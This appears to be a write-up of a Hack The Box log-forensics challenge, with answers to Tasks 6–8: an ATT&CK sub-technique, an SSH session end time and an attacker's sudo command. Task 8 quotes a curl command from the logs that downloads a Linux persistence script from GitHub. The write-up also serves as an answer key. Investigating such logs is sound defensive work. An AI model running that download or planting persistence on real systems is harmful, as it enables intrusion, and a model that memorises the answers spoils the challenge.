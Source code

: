 <img width="1237" height="520" alt="image" src="https://github.com/user-attachments/assets/4f23b2f9-2098-4b09-8d6b-7d7ff443b509" />

<img width="1249" height="458" alt="image" src="https://github.com/user-attachments/assets/1c6752d9-0800-450b-8ea2-e9c29814738f" />

To find out the sub-technique ID, I navigated to the MITTRE ATT&CK site, then under the "Persistence" tactics, I went into the "Create Account" technique. From there, I see there are three different sub-techniques: T1136.001, T1136.002, and T1136.003. 

To understand what each sub-technique was, I opened each sub ID and read into its technique, and I determined that sub-technique T1136.001 (local account) was the most appropriate in this situation. T1136.002 was regarding domain accounts, and T1136.003 is about cloud accounts, which were not applicable in this case.

### Final Answer
The final answer to Task 6 is T1136.001.

## Task 7
### **What time did the attacker's first SSH session end according to auth.log?**
<img width="669" height="147" alt="image" src="https://github.com/user-attachments/assets/dab5bedc-2cd5-4ee9-9549-4a49464db56c" />

To find when the attacker's first SSH session ended, I applied a filter `Removed session` to get a list of when each sessions were closed. From my observation, the first SSH session ended on 2024-03-06 06:31:40.

### Final Answer
The final answer to Task 7 is 2024-03-06 06:31:40.
**NOTE:** HTB says that the answer is 2024-03-06 06:37:24, which I believe is the incorrect answer, as this is the second session and not the first session.

## Task 8
### **The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**
<img width="1217" height="269" alt="image" src="https://github.com/user-attachments/assets/af368e45-2450-46ef-b81d-53254d2e0029" />

I filtered down auth.log to show all sudo commands and I observe that at 06:39:38, the attacker ran the `curl` command to download a script.

### Final Answer
The final answer to Task 8 is /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh.
